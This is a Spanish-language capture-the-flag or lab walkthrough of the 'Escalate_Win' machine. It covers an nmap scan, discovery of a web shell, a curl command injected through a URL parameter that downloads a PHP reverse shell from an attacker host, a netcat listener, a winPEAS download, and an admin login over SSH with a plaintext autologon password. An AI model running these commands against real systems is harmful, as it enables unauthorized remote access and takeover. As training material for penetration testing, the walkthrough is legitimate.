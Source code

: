 ```yaml
---
title: Pentesting Escalate_Win
published: true
---
```


### Reconocimiento
Escaneamos con **nmap**:
```
sudo nmap -p- -T4 [IP DE LA VÍCTIMA] -oN nmap.txt
```
![](/images/20220513115055.png)

Vemos que la máquina tiene el puerto 80 abierto(**http**), por lo tanto, es accesible desde un navegador web:

![](/images/20220513115328.png)

Lanzamos un ataque de diccionario con **dirbuster** para descubrir que directorios hay disponibles:

![](/images/20220513120012.png)

Detectamos un archivo que parece interesante "**shell.php**":

![](/images/20220513120328.png)

![](/images/20220513121121.png)

Como vemos se pueden ejecutar comandos a través de parámetros en la url:

![](/images/20220513121252.png)

### Exploit
Para conseguir una consola interactiva con la máquina víctima utilizamos una **shell inversa** y **netcat**:

En este caso he escogido esta, ya que es compatible con Windows: [php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)

Descargamos la shell a nuestra máquina con el comando **wget**:
```
wget https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php
```

Ahora editamos el código de **php_reverse_shell.php** para que conecte a nuestra máquina:
```
nano php_reverse_shell.php
```
![](/images/20220513122810.png)

*En mi caso la ip de kali es 192.168.3.249 y utilizaré el puerto 4444*
Una vez editado guardamos con **CTRL+S** y cerramos con **CTRL+X**

Lo siguiente es iniciar un **servidor http** para poder descargar la shell en la máquina víctima:
```
sudo python3 -m http.server 80
```
![](/images/20220513123751.png)

Descargamos la shell a la máquina víctima desde el navegador utilizando **curl**:
```
http://[IP DE LA VÍCTIMA]/shell.php?cmd=curl+http://[IP DEL ATACANTE]/php_reverse_shell.php+-O+php_reverse_shell.php
```
*Si todo ha ido bien, el servidor nos contestara con una página en blanco*

Podemos ver que nuestro shell se ha subido correctamente:
```
http://[IP DE LA VÍCTIMA]/shell.php?ls+-la
```
![](/images/20220513125043.png)

Ya podemos cerrar el servidor http en kali.

Ponemos **netcat** a la escucha en el puerto 4444:
```
nc -nlvp 4444
```
![](/images/20220513125601.png)

Lo único que falta es ejecutar la shell en la máquina víctima:
```
http://[IP DE LA VÍCTIMA]/php_reverse_shell.php.php
```
*Si todo va bien, el navegador se quedara cargando.*

Listo, hemos recibido una conexion en netcat que nos da acceso remoto a la máquina víctima:

![](/images/20220513130346.png)

![](/images/20220513130922.png)

A partir de aquí pasaríamos a la fase de **escalada de privilegios**.

### Escalada

Para encontrar nuestro vector de ataque utilizamos [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS), que es uno de los mejores scripts para escalada de privilegios.

Descargamos el script a nuestra máquina con el comando **wget**:
```
wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASbat/winPEAS.bat
```
Volvemos a iniciar el **servidor http** para descargar el script desde la máquina víctima:
```
sudo python3 -m http.server 80
```
Desde la consola que tenemos en la máquina víctima, descargamos el script con **curl**:
```
curl http://[IP DEL ATACANTE]/winPEAS.bat -o winPEAS.bat
```
![](/images/20220515132412.png)

Ejecutamos el script en la máquina víctima:
```
winPEAS.bat
```
WinPEAS nos da muchísima información, pero nos fijamos en la parte que nos indica las vulnerabilidades que no están parcheadas:

![](/images/20220515132738.png)

También aparece una contraseña guardada del inicio de sesión automático:

![](/images/20220515133604.png)

Probamos a conectarnos por **SSH** con la cuenta de administrador:
```
ssh Administrator@[IP DE LA VÍCTIMA]
```
**Bingo!** Tras introducir la contraseña que hemos encontrado en ¨winLogon¨ tenemos el control total de la máquina víctima:

![](/images/20220515134932.png)

Esto demuestra los riesgos que hay al guardar contraseñas para el inicio de sesión automático, y la mala gestión de Windows por almacenar esta contraseña en texto plano.

### Enlaces interesantes

* Dirbuster - [https://www.kali.org/tools/dirbuster/](https://www.kali.org/tools/dirbuster/)
* Php-reverse-shell - [https://github.com/ivan-sincek/php-reverse-shell](https://github.com/ivan-sincek/php-reverse-shell)
* Hacking with Netcat - [https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)
* Privilege Escalation Awesome Scripts SUITE - [https://github.com/carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng)